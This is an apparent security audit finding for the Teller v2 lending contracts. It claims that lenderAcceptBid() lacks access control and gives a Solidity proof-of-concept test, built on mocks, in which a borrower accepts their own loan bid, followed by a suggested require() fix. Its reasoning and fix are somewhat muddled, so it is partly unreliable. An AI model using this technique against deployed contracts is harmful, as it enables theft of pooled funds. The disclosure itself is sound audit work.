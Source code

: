 mrpathfindr

high

# Lack of access control in lenderAcceptBid() leads to total loss of funds.

## Summary
Any user can call the function `lenderAcceptBid()` an attacker can use this vulnerability to create bogus loans with no real collateral, accept their own bids and `borrow` funds with their bogus loan bid. Therefore leading to a total loss of funds. 

## Vulnerability Detail


To test this, place the following code block in `packages/contracts/contracts/TellerV2.sol`

```solidity

 function test_borrower_can_accept_their_own_load_bid() public {

        //setup bid 
        uint256 bidId = 1;
        setMockBid(bidId);

        tellerV2.mock_initialize(); //set address this as owner
        lendingToken.approve(address(tellerV2), 1e20);

        uint256  attackerBalanceBefore = lendingToken.balanceOf(address(receiver));

        //make address (this) be the one that makes the payment
        tellerV2.setMockMsgSenderForMarket(address(this));
        tellerV2.mock_setBidState(bidId, BidState.PENDING);
        tellerV2.setMarketRegistrySuper(address(marketRegistryMock));
        marketRegistryMock.setMarketFeeRecipient(address(feeRecipient));
        tellerV2.setCollateralManagerSuper(address(collateralManagerMock));

        //borrower (receiver) accpets their own loan bid and recieves loan  
        vm.prank(address(receiver));
        tellerV2.lenderAcceptBid(bidId);
        vm.stopPrank();

        uint256  attackerBalanceAfter = lendingToken.balanceOf(address(receiver));
        assertGt(attackerBalanceAfter, attackerBalanceBefore);
    }

```

The result of the test shows, the borrower (receiver) of the loan is able to accept their own loan. According to the documentation, only lenders should be able to [accept loan bids](https://docs.teller.org/teller-v2/protocol/lenders/accepting-a-loan). 


Let us examine the `lenderAcceptBid()` function 


```solidity
      // Retrieve bid
        Bid storage bid = bids[_bidId];

        address sender = _msgSenderForMarket(bid.marketplaceId);

        (bool isVerified, ) = marketRegistry.isVerifiedLender(
            bid.marketplaceId,
            sender
        );
```


This condition gets the lender `sender` for a particular marketplaceId and checks if the user for the marketplace is the same has the lender, ``` (bool isVerified, ) ``` but it does not check if the caller of the function `(msg.sender)` is the verified lender authorised to accept loan bids.



## Impact

Attacker creates loan bids with bogus/no collateral and then accepts their own bids, instantly allowing them to borrow for free.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L470-L558

## Tool used

Manual Review

## Recommendation

Only the lender should be able to call `lenderAcceptBid()`. Add access control to the function via `require()` like so 


```solidity
address lender =    bid.lender

require(msg.sender == lender, "Only lender can accept bids")
```




